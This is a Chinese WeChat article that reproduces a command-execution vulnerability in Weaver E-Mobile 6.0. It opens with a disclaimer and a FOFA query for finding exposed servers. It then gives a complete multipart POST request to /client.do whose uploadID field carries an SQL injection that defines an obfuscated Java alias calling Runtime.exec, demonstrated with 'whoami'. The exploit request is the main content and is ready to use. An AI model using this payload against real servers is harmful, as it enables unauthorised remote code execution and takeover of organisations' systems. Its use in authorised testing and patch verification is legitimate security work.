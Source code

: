 #  漏洞复现 || 泛微E-Mobile 6.0 存在命令执行

韩文庚  [ 我爱林 ](javascript:void\(0\);)

**我爱林** ![]()

微信号 CoderWin

功能介绍 原创歌词等你发表意见！为你揭秘恋爱正常表现！翻唱聆听自己内心世界！IT分享成为网络安全教练！

____

___发表于_

收录于合集

#渗透测试 161 个

#网络安全 165 个

#漏洞复现 157 个

## 免责声明

 **我爱林攻防研究院的技术文章仅供参考，**
**任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得利用网络从事危害国家安全、荣誉和利益**
**，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**  

## 漏洞描述

泛微E-Mobile
6.0被爆存在漏洞命令执行。现已确认该漏洞可被攻击者利用，攻击者可通过在输入中添加特殊字符或命令来序列欺骗应用程序将其作为有效命令去执行，从而获取服务器的执行权限。

![]()

## 资产确定

    
    
     ** **fofa：**** ** **body="Weaver E-Mobile"****

##  漏洞复现

1.利用Burp发送如下POST请求执行whoami得到回显

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /client.do HTTP/1.1Host: {{Hostname}}User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateConnection: closeUpgrade-Insecure-Requests: 1Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTm8YXcJeyKDClbU7Content-Length: 1147  
    ------WebKitFormBoundaryTm8YXcJeyKDClbU7Content-Disposition: form-data; name="method"  
    getupload------WebKitFormBoundaryTm8YXcJeyKDClbU7Content-Disposition: form-data; name="uploadID"  
    1';CREATE ALIAS if not exists MzSNqKsZTagmf AS CONCAT('void e(String cmd) throws java.la','ng.Exception{','Object curren','tRequest = Thre','ad.currentT','hread().getConte','xtClass','Loader().loadC','lass("com.caucho.server.dispatch.ServletInvocation").getMet','hod("getContextRequest").inv','oke(null);java.la','ng.reflect.Field _responseF = currentRequest.getCl','ass().getSuperc','lass().getDeclar','edField("_response");_responseF.setAcce','ssible(true);Object response = _responseF.get(currentRequest);java.la','ng.reflect.Method getWriterM = response.getCl','ass().getMethod("getWriter");java.i','o.Writer writer = (java.i','o.Writer)getWriterM.inv','oke(response);java.ut','il.Scan','ner scan','ner = (new java.util.Scann','er(Runt','ime.getRunt','ime().ex','ec(cmd).getInput','Stream())).useDelimiter("\\A");writer.write(scan','ner.hasNext()?sca','nner.next():"");}');CALL MzSNqKsZTagmf('whoami');--------WebKitFormBoundaryTm8YXcJeyKDClbU7--

![]()

如有侵权，请联系删除

感谢您抽出

![]()

.

![]()

.

![]()

来阅读本文

![]()

 **点它，分享点赞在看都在这里**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

